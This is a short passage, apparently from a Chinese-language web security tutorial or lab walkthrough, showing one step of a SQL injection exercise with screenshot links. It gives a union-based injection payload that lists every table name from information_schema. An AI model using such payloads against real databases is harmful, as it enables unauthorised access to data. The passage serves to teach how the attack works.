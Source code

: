 ![show-database](../imgs/wm_141.png)

我们还可以查看所有的表的名称：

```
' or 1=1 union select null, table_name from information_schema.tables #
```

![show-schema](../imgs/wm_142.png)
